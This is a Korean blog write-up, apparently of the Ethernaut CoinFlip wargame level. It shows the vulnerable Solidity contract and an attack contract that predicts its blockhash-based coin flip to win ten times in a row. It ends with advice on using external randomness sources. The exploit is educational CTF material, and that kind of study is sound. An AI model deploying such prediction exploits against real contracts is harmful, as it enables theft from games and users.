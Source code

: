 ```yaml
---
emoji: 🧢
title: (Ethernauts 취약점 3) CoinFlip  
date: '2022-01-06 02:32:00'
author: 한성원
tags: ethernauts CoinFlip vulnerability
categories: 취약점분석
---
```



# 👋 1. CoinFlip
__Difficulty 3/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- 동전 뒤집기 게임에서 10번 연속 예측 성공하기

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  // 연속 win의 수
  uint256 public consecutiveWins;
  // 이전 flip()에 사용됐던 hash 값 
  uint256 lastHash;
  // 난수 생성을 위한 값
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  //constructor: consecutiveWins 초기 값을 0으로 setting
  constructor() public {
    consecutiveWins = 0;
  }

  //동전 뒤집기 예측을 위한 function
  //return boolean
  function flip(bool _guess) public returns (bool) {
    // blockValue에 last blockhash를 uint256으로 casting해 저장한다
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    //만약 이전 게임에서 사용했던 hash라면 답이 같을 수 있음으로 revert한다
    if (lastHash == blockValue) {
      revert();
    }
    
    // 이번 게임에서 사용 될 hash를 저장
    lastHash = blockValue;
    //blockValue를 FACTOR로 나눈 값을 coinFilip에 저장한다.
    uint256 coinFlip = blockValue.div(FACTOR);
    // coinFlip의 숫자와 1이 같으면 side에 true, 다르면 false를 저장한다.
    bool side = coinFlip == 1 ? true : false;

    // 만약 side와 _guess가 같다면 실행, 즉 user의 예측이 맞았다면 실행
    if (side == _guess) {
      // 연속 win의 수에 1을 더한다
      consecutiveWins++;
      return true;
    } 
    // 만약 side와 _guess가 다르다면 실행, 즉 user의 예측이 틀렸다면 실행
    else {
      // 연속 win의 수를 초기화 시킨다.
      consecutiveWins = 0;
      return false;
    }
  }
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 CoinFlip은 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.


## 풀이
이 문제는 random으로 생성되는 값을 연속해서 맞추는 것이다.
그리고 이 문제에서 주목해야 할 점은 randomness이다.

solidity를 사용하여 randomness를 생성하는 것은 매우 까다롭고 대부분의 방법은 hacking 당하기 쉽다. 그래서 randomness를 생성하는 곳을 파고들어야 한다.

이 CoinFlip contract에서는 미리 정해진 FACTOR과 이전 block의 hash를 사용하여 randomness를 생성한다.

blockhash의 특징은 무엇일까? 우선 blockhash는 트랜잭션이 추가된 block의 hash 값이다. 즉 같은 block에 있는 transaction은 같은 blockhash를 가진다.

그렇다면 우리가 같은 block에 transaction을 보낸다면 해킹이 가능 할 것이다!

나는 그래서 CoinFlipAttack contract를 새로 만들었다. 

주석을 통해 CoinFlipAttack contract를 같이 분석 해보자!
```solidity
//아마 위해서 본 CoinFlip contract와 매우 비슷할 것이다.
contract CoinFlipAttack {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 public lastHash;
  // CoinFlip.flip()의 결과를 예측하기 위해 같은 FACTOR를 쓴다.
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  //CoinFlip contract의 address
  address coinFlipAddress;

  //contructor: 배포시 CoinFlip의 address를 포함해 배포한다.
  constructor(address _coinFlipAddress) public {
    consecutiveWins = 0;
    //coinFlipAddress를 CoinFlip의 address로 설정한다.
    coinFlipAddress = _coinFlipAddress;
  }

  function flip() public {
    //CounFlip contract와 똑같이 blockValue를 생성한다.
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    //CounFlip contract와 똑같이 conFlip 값을 생성한다.
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    이미 맞춘 값을 CoinFlip.flip에 보내 해킹한다.
    CoinFlip(coinFlipAddress).flip(side);

  }
}

```

즉 CoinFlipAttack.flip()을 다른 블록에 10번 call하면 해킹에 성공하게 된다.


완료 후 Submit instance를 누르고 조금 기다리면 block이 mine되고,
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -
## 마무리
solidity에서 randomness를 생성하는 것은 까다롭다. block.timestamp, block.hash등을 사용할 수 있지만 이는 모두 예측이 가능하다. 그래서 contract에서 randomness를 생성하는 것이 아니라 외부에 가져오는 것이 좋다. Openzeppline에서는 Chainlink VRF, RANDAO, Oraclize를 사용하는 것을 권장하고 있다. 앞으로 randomness를 만들때 조심하자! 

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
```toc

```